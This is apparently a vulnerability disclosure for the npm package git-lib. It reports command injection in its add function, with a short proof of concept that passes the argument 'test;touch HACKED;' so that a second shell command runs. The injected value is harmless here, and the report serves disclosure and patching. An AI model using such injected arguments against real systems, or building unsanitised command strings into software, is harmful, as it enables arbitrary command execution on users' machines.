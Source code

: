 The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. 

## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))
1. Create the following PoC file:
```js
// poc.js
var git = require("git-lib");
git.add("test;touch HACKED;").then(function(){
	/** successfully added **/
}).catch(function(err){
	/** unsuccessful **/
});
```
1. Check there aren't files called `HACKED`
1. Execute the following commands in another terminal:
```bash
npm i git-lib # Install affected module
git init # Avoid problems with *git*
node poc.js #  Run the PoC
```
1. Recheck the files: now `HACKED` has been created
## References:
 - [GitHub Issue](https://github.com/joeyism/node-git-lib/issues/2)
 - [GitHub Permalink #1](https://github.com/joeyism/node-git-lib/blob/master/git.js#L13)